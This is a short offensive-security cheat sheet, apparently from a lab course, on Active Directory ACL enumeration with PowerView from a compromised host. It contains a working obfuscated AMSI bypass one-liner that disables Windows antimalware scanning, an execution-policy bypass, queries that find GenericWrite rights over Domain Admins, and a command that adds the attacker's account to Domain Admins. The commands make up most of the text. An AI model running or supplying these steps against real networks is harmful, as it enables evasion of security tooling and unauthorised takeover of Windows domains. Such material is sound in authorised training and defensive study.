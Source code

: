 # ACL Enumeration

## PowerView
Import PowerView to the compromised host and run the following commands


`powershell -ep bypass`

Bypass AMSI with this PowerShell command.


```powershell 
PS C:\AD> sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```

Import the script

`. .\powerview.ps1`

Who are you running as?

```powershell
PS C:\AD> whoami
MARVEL\student1
```

Get assoicated ACLs with your account

`PS C:\AD> Get-ObjectAcl -SamAccountName student1 -ResolveGUIDS`

`PS C:\AD> Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDS`

Match the Security ID with Domain Admins too clearify an exploitation path.

```powershell
PS C:\AD> Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDS | ? { ($_ActiveDirectoryRights -match 'GenericWrite') -and ($_securityIdentifier -match 'YOUR-OBJECTSID') }

PS C:\AD> Get-ObjectAcl -SamAccountName * -ResolveGUIDS | ? { ($_ActiveDirectoryRights -match 'GenericWrite') -and ($_securityIdentifier -match 'YOUR-OBJECTSID') }
```

If you found a generic write to group you can add yourself to that group:

```powershell
Add-DomainGroupMember -identity 'Domain Admins' -Member 'student1 -Domain 'MARVEL'
```
